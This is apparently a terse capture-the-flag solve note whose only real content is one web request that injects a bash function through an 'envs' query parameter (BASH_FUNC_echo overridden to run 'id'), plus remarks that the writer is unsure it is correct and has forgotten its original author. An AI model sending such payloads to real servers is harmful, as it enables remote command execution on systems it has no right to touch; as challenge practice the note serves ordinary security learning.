 ### IDK THE SOLVE IS
---
```text
http://[ip]/?envs[BASH_FUNC_echo%%] = () { id; }
```
```text
p.s - I'm not sure if this is the correct solution, but it works.
p.s - forgot the twitter name of the author of this solution.
```